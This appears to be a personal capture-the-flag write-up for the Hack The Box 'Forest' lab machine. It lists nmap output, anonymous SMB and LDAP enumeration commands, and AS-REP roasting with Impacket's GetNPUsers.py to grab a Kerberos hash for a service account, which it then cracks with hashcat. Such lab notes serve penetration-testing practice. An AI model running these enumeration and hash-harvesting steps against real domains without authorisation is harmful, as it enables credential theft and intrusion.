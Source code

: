 let's start with exporting the ip so we can use it faster 
export IP=10.129.95.210
then let's run our nmap scan 
# nmap 
53/tcp   open  domain       syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-10-08 14:15:42Z)
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?    syn-ack ttl 127
593/tcp  open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped   syn-ack ttl 127
3268/tcp open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped   syn-ack ttl 127
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

from the ports open we can say that it's active directory server running with kerberos

Domain name : htb.local

# smb enum
let's try to login as anonymous to the server [[SMTP 25]]
we are in but it doesn't show any shares #smb

# DNS enum
nslookup
server 
10.129.95.210
127.0.0.1
10.129.95.210
and nothing
# ldap enum

ldapsearch -h 10.129.95.210 -x -s base namingcontexts
![[Pasted image 20211008164648.png]]
ldapsearch -h 10.129.95.210 -x -b "DC=htb,DC=local" > ldap.out to dump info from ldap server then we can try to query using 
ldapsearch -h 10.129.95.210 -x -b "DC=htb,DC=local" '(object Class=Person)'
ldapsearch -h 10.129.95.210 -x -b "DC=htb,DC=local" '(object Class=Person)' sAMAccountName 


# impakets
[[Impakets]]
trying to do GetNPUsers.py impaket 
GetNPUsers.py -dc-ip $IP -request 'htb.local/' -format hashcat
and we got a ticket!
![[Pasted image 20211008172555.png]]
for the username svc-alfresco
[[00 Progress/Boxes/HTB/Windows/Forest/04 Creds]]

# using hashcat to crack the hash
![[Pasted image 20211008173112.png]]
